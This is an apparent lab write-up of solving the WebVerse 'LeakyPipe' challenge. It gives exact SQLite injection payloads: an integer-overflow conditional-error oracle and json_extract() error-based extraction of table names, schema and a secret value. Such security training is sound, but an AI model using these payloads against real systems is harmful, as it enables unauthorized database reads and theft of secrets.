> **Publication note:** This article documents a fresh reproduction in an authorized WebVerse educational lab. Current hostnames, session values, application paths, objective material, and secret-equivalent HEX are excluded. The public objective representation is `WEBVERSE{REDACTED}`.

## Executive Summary

LeakyPipe exposed an unauthenticated review filter at `GET /reviews` through the `after` query parameter. A benign date produced the normal review state, while a one-character apostrophe mutation reached the SQL parser and triggered a verbose SQLite exception. The response disclosed the generated `SELECT` statement, an application source line, and `sqlite3.OperationalError` details.

A conventional TRUE/FALSE content comparison was not usable: both predicates rendered the same 31-review page. The exposed execution line showed that the query result was fetched and discarded, so distinct SQL outcomes did not need to change the visible page. A SQLite conditional-error expression using `abs(-9223372036854775808)` supplied a reliable replacement oracle: TRUE returned the normal review page; FALSE returned `sqlite3.OperationalError: integer overflow`. The mapping was validated twice, with reversed request order in the second run.

The reproduction then remained deliberately bounded. A semantic precheck confirmed a relevant configuration-class relation; a structured SQLite error transferred the single matching relation name `internal_config`; and a HEX-encoded DDL read established the `k`, `value`, and `notes` columns. One objective-constrained scalar was decoded locally in Caido Convert and accepted by WebVerse. No broad schema dump, scanner, write action, or post-objective request was performed.

> **CONFIRMED FINDING**
>
> The public `after` value is interpreted as SQLite query structure instead of remaining a bound date value. The demonstrated impact is unauthenticated SQL injection, client-facing verbose error disclosure, a repeatable conditional-error truth channel, and a bounded read path to one internal configuration value.

## 1. Report Profile

| Field | Verified value |
| --- | --- |
| Platform | WebVerse |
| Lab | LeakyPipe |
| Difficulty | Medium |
| Status | Solved / Verified |
| Affected endpoint | `GET /reviews` |
| Injectable parameter | `after` |
| Database behavior | SQLite / `sqlite3.OperationalError` |
| Primary weakness | [CWE-89](/cwes/cwe-89/) — SQL Injection |
| Supporting weakness | [CWE-209](/cwes/cwe-209/) — verbose error disclosure |
| Evidence | Fresh Caido Browser, History, Replay, Convert, and WebVerse solved-state evidence |

### Verified Attack Chain

```text
GET /reviews?after=2024-02-12
  > Normal review state; 31 reviews shown
Append one apostrophe to after
  > SQLite parser failure, generated SELECT, source line, and traceback exposed
Syntactically valid TRUE / FALSE content controls
  > Both render 31 reviews; content is not a truth oracle
Conditional SQLite error control
  > TRUE = normal response; FALSE = integer overflow, repeated in reversed order
Bounded sqlite_master semantic precheck
  > Relevant configuration-class relation exists
Structured json_extract() error channel
  > One matching relation name: internal_config
HEX-encoded DDL read
  > internal_config contains k, value, and notes
One objective-constrained scalar
  > decoded locally in Caido as WEBVERSE{REDACTED}
WebVerse submission
  > CHALLENGE SOLVED / Flag accepted
```

## 2. Scope and Evidence Boundary

Testing was restricted to the fresh authorized LeakyPipe lab instance and the known `/reviews` chain.

- One meaningful value changed at a time for every baseline, control, and oracle comparison.
- No unrelated routes, payload families, automated scanners, shell commands, Python scripts, curl flow, or broad enumeration were used.
- No write, destructive, persistence, file-write, command-execution, or privilege-escalation capability was tested.
- The final database read was constrained to one value matching the WebVerse objective form. Its literal and HEX representation are not published.
- After the objective was obtained, no further exploit request was sent to the vulnerable endpoint. Only local Caido decoding and platform submission followed.

The evidence proves the read/disclosure path described here. It does not prove write capability, RCE, an interactive Werkzeug debugger, bulk extraction, or access outside this authorized lab.

## 3. Reproduction Commands and Payloads

The following public-safe request models and payloads were used in the fresh Caido reproduction. Every `http` block preserves the URL-encoded Caido Replay form; the adjacent decoded block explains the exact `after` value without making readers manually decode a long query string. The SQL comment terminator is `--` followed by a significant trailing ASCII space. In the encoded requests that space is represented explicitly as the final `%20`; in decoded blocks it is described rather than rendered as invisible trailing whitespace. Dynamic host, session, application paths, and objective material are not published.

### 3.1 Legitimate Review Contract

The current instance exposed a public review page. Its HTML form used `GET /reviews` with a text input named `after` and a `YYYY-MM-DD` format hint. This establishes the route, method, insertion point, and expected benign format before any mutation.



**Figure 1 — Request contract.** The form binds `GET /reviews` to the `after` parameter with a date-format hint.

### 3.2 Normal Baseline

The benign value `2024-02-12` was replayed without changing the request contract. The application returned its normal review presentation and reported 31 reviews. This response is the semantic baseline for later comparisons.

**P-01 — exact Caido Replay request (URL-encoded).**

```http
GET /reviews?after=2024-02-12 HTTP/1.1
Host: <LAB_HOST>
```

Expected semantic result: normal review page; no database error.



**Figure 2 — Baseline.** The benign request renders the normal review state with 31 reviews shown.

### 3.3 Single-Quote Differential and Verbose Error Disclosure

Only one character changed: a trailing apostrophe was appended to the valid date. The response exposed a SQLite exception, the generated query, an application source line, and the execution behavior showing that result rows were fetched and discarded.

**P-02 — exact Caido Replay request (URL-encoded).**

```http
GET /reviews?after=2024-02-12%27 HTTP/1.1
Host: <LAB_HOST>
```

Expected semantic result: database-specific parser failure. This establishes parser reachability and unsafe SQL construction; HTTP 500 alone is not treated as sufficient proof.



**Figure 3 — Parser differential.** The one-character mutation exposes the generated `SELECT`, source line 110, and `sqlite3.OperationalError`. The application path is redacted.

### 3.4 Non-Injective Content Control

Two syntactically valid predicates were tested with the same route and surrounding context. The TRUE and FALSE outcomes both returned the 31-review presentation and neither raised a database exception.

**P-03 — TRUE control, exact Caido Replay request (URL-encoded).**

```http
GET /reviews?after=2024-02-12%27%20AND%20%271%27%3D%271%27%20--%20 HTTP/1.1
Host: <LAB_HOST>
```

**Decoded `after` payload.**

```text
2024-02-12' AND '1'='1' --
```

**P-04 — FALSE control, exact Caido Replay request (URL-encoded).**

```http
GET /reviews?after=2024-02-12%27%20AND%20%271%27%3D%272%27%20--%20 HTTP/1.1
Host: <LAB_HOST>
```

**Decoded `after` payload.**

```text
2024-02-12' AND '1'='2' --
```

Expected semantic result: both requests remain syntactically valid and render the same visible page. This proves that page content is not a usable truth oracle in this query path.



**Figure 4 — TRUE content control.** The valid TRUE predicate remains on the normal 31-review state.



**Figure 5 — FALSE content control.** The valid FALSE predicate also renders 31 reviews.

The visible equality does not invalidate the injection. The disclosed execution line shows `conn.execute(sql).fetchall()` with the resulting rows discarded, so distinct SQL outcomes need not affect the rendered HTML.

### 3.5 Conditional-Error Oracle

Because the content channel was non-injective, the reproduction used a SQLite runtime error in the FALSE branch of a `CASE` expression. SQLite raises an integer-overflow error for `abs(-9223372036854775808)`. The TRUE branch returns `1` and does not evaluate the error expression.

**P-05 — TRUE branch, exact Caido Replay request (URL-encoded).**

```http
GET /reviews?after=2024-02-12%27%20AND%20CASE%20WHEN%201%3D1%20THEN%201%20ELSE%20abs%28-9223372036854775808%29%20END%20--%20 HTTP/1.1
Host: <LAB_HOST>
```

**Decoded `after` payload.**

```text
2024-02-12' AND CASE WHEN 1=1 THEN 1 ELSE abs(-9223372036854775808) END --
```

**P-06 — FALSE branch, exact Caido Replay request (URL-encoded).**

```http
GET /reviews?after=2024-02-12%27%20AND%20CASE%20WHEN%201%3D2%20THEN%201%20ELSE%20abs%28-9223372036854775808%29%20END%20--%20 HTTP/1.1
Host: <LAB_HOST>
```

**Decoded `after` payload.**

```text
2024-02-12' AND CASE WHEN 1=2 THEN 1 ELSE abs(-9223372036854775808) END --
```

Expected semantic result: TRUE returns the normal page; FALSE returns `sqlite3.OperationalError: integer overflow`.

The mapping was repeated in reversed order. The second FALSE branch reproduced the same overflow, and the following TRUE branch returned to the normal state. That control rules out interpreting a one-off HTTP 500 as a truth signal.



**Figure 6 — FALSE oracle branch.** The repeated FALSE branch triggers `sqlite3.OperationalError: integer overflow` and exposes a Flask debug-error-page warning.



**Figure 7 — TRUE oracle branch.** The repeated TRUE control returns to the normal 31-review state.

### 3.6 Bounded Semantic Precheck

The locked oracle was used for one narrow predicate: whether a non-system `sqlite_master` relation name or DDL text matched the semantic class `admin`, `config`, or `setting`. It did not enumerate a table list.

**P-07 — exact Caido Replay request (URL-encoded).**

```http
GET /reviews?after=2024-02-12%27%20AND%20CASE%20WHEN%20EXISTS%28SELECT%201%20FROM%20sqlite_master%20WHERE%20type%3D%27table%27%20AND%20name%20NOT%20LIKE%20%27sqlite_%25%27%20AND%20%28lower%28name%29%20LIKE%20%27%25admin%25%27%20OR%20lower%28name%29%20LIKE%20%27%25config%25%27%20OR%20lower%28name%29%20LIKE%20%27%25setting%25%27%20OR%20lower%28coalesce%28sql%2C%27%27%29%29%20LIKE%20%27%25admin%25%27%20OR%20lower%28coalesce%28sql%2C%27%27%29%29%20LIKE%20%27%25config%25%27%20OR%20lower%28coalesce%28sql%2C%27%27%29%29%20LIKE%20%27%25setting%25%27%29%29%20THEN%201%20ELSE%20abs%28-9223372036854775808%29%20END%20--%20 HTTP/1.1
Host: <LAB_HOST>
```

**Decoded `after` payload.**

```sql
2024-02-12' AND CASE WHEN EXISTS(
  SELECT 1
  FROM sqlite_master
  WHERE type='table'
    AND name NOT LIKE 'sqlite_%'
    AND (
      lower(name) LIKE '%admin%'
      OR lower(name) LIKE '%config%'
      OR lower(name) LIKE '%setting%'
      OR lower(coalesce(sql,'')) LIKE '%admin%'
      OR lower(coalesce(sql,'')) LIKE '%config%'
      OR lower(coalesce(sql,'')) LIKE '%setting%'
    )
) THEN 1 ELSE abs(-9223372036854775808) END --
```

Expected semantic result: the validated conditional-error oracle follows the normal TRUE branch if at least one relevant relation exists. Reflected occurrences of the string `sqlite_master` were not treated as database evidence; only the locked oracle was authoritative.

### 3.7 One Relation Name Through a Structured Error

After the positive semantic precheck, the reproduction used SQLite `json_extract()` with an intentionally invalid JSON path. The dynamically selected relation name became part of the invalid path and was returned by the exception. This transferred exactly one matching name without character-by-character blind extraction.

**P-08 — exact Caido Replay request (URL-encoded).**

```http
GET /reviews?after=2024-02-12%27%20AND%20json_extract%28%27%7B%7D%27%2C%27%21%27%20%7C%7C%20%28SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%3D%27table%27%20AND%20name%20NOT%20LIKE%20%27sqlite_%25%27%20AND%20%28lower%28name%29%20LIKE%20%27%25admin%25%27%20OR%20lower%28name%29%20LIKE%20%27%25config%25%27%20OR%20lower%28name%29%20LIKE%20%27%25setting%25%27%20OR%20lower%28coalesce%28sql%2C%27%27%29%29%20LIKE%20%27%25admin%25%27%20OR%20lower%28coalesce%28sql%2C%27%27%29%29%20LIKE%20%27%25config%25%27%20OR%20lower%28coalesce%28sql%2C%27%27%29%29%20LIKE%20%27%25setting%25%27%29%20ORDER%20BY%20name%20LIMIT%201%29%29%20--%20 HTTP/1.1
Host: <LAB_HOST>
```

**Decoded `after` payload.**

```text
2024-02-12'
AND json_extract(
  '{}',
  '!' || (
    SELECT name
    FROM sqlite_master
    WHERE type='table'
      AND name NOT LIKE 'sqlite_%'
      AND (
        lower(name) LIKE '%admin%' OR lower(name) LIKE '%config%' OR lower(name) LIKE '%setting%'
        OR lower(coalesce(sql,'')) LIKE '%admin%' OR lower(coalesce(sql,'')) LIKE '%config%' OR lower(coalesce(sql,'')) LIKE '%setting%'
      )
    ORDER BY name
    LIMIT 1
  )
) --
```

Expected semantic result: SQLite rejects the invalid JSON path and includes the dynamically selected name in the exception. The fresh result was `internal_config`.



**Figure 8 — Relation-name leak.** The structured error transfers the single relevant relation name `internal_config`.

### 3.8 Bounded DDL Read and Objective Validation

Only the confirmed `internal_config` relation was queried for its `CREATE TABLE` definition. The scalar was HEX-encoded before being transferred through the same error channel, keeping the error path ASCII-safe.

**P-09 — exact Caido Replay request (URL-encoded).**

```http
GET /reviews?after=2024-02-12%27%20AND%20json_extract%28%27%7B%7D%27%2C%27%21%27%20%7C%7C%20hex%28%28SELECT%20sql%20FROM%20sqlite_master%20WHERE%20type%3D%27table%27%20AND%20name%3D%27internal_config%27%20LIMIT%201%29%29%29%20--%20 HTTP/1.1
Host: <LAB_HOST>
```

**Decoded `after` payload.**

```text
2024-02-12'
AND json_extract(
  '{}',
  '!' || hex((
    SELECT sql
    FROM sqlite_master
    WHERE type='table'
      AND name='internal_config'
    LIMIT 1
  ))
) --
```

The decoded DDL established the minimal structure needed for a constrained read:

```sql
CREATE TABLE internal_config (
  k TEXT PRIMARY KEY,
  value TEXT NOT NULL,
  notes TEXT
)
```



**Figure 9 — DDL read.** The direct-error channel returns a HEX scalar that decodes to the `internal_config` structure.

The final read selected a single `value` matching the platform objective grammar. The returned HEX and literal are intentionally omitted.

**P-10 — exact Caido Replay request (URL-encoded).**

```http
GET /reviews?after=2024-02-12%27%20AND%20json_extract%28%27%7B%7D%27%2C%27%21%27%20%7C%7C%20hex%28%28SELECT%20value%20FROM%20internal_config%20WHERE%20value%20GLOB%20%27WEBVERSE%7B%2A%7D%27%20LIMIT%201%29%29%29%20--%20 HTTP/1.1
Host: <LAB_HOST>
```

**Decoded `after` payload.**

```text
2024-02-12'
AND json_extract(
  '{}',
  '!' || hex((
    SELECT value
    FROM internal_config
    WHERE value GLOB 'WEBVERSE{*}'
    LIMIT 1
  ))
) --
```

Expected semantic result: one HEX scalar is transferred through the exception. It was decoded locally with Caido Convert only after matching the complete WebVerse objective form.

**P-11 — local Caido Convert validation.**

```text
Convert Start -> Hex Decode -> Convert End
Input:  <OBJECTIVE_HEX_REDACTED>
Output: WEBVERSE{REDACTED}
```

Expected semantic result: local HEX decoding confirms the complete WebVerse objective form. The objective-derived HEX and literal remain excluded from the public article.



**Figure 10 — Local validation.** Caido Convert confirms the decoded value has the WebVerse objective format; both the input HEX and literal are redacted.

### 3.9 Authoritative Solved State and Atomic Stop

The current-instance value was submitted through the WebVerse challenge interface. The platform accepted it and marked the lab solved. No additional request was sent to `/reviews` after objective extraction.



**Figure 11 — Authoritative validation.** WebVerse marked LeakyPipe as **CHALLENGE SOLVED** and accepted the objective.

## 4. Root Cause

The error response shows that `after` is inserted inside the following SQL shape rather than safely bound as data:

```sql
SELECT reviewer, stars, body, posted_date
FROM reviews
WHERE posted_date > '<after>'
ORDER BY posted_date DESC
```

An apostrophe from the request changes SQL syntax, which is consistent with direct string interpolation or concatenation. The client-facing error page then amplifies the weakness by disclosing the database engine, quote context, generated SQL, source location, and execution behavior.

The public review feature can also reach `sqlite_master` and `internal_config` through the same SQLite backing store. That data placement extends a low-sensitivity filter into the demonstrated internal configuration disclosure path.

## 5. Classification and Impact

| Classification | Mapping | Evidence basis |
| --- | --- | --- |
| Primary | [CWE-89](/cwes/cwe-89/) — SQL Injection | Controlled input changes SQL syntax; a repeatable conditional-error oracle and bounded reads are demonstrated. |
| Secondary | [CWE-209](/cwes/cwe-209/) — Error Message Containing Sensitive Information | The client receives exception details, generated SQL, source information, and traceback. |
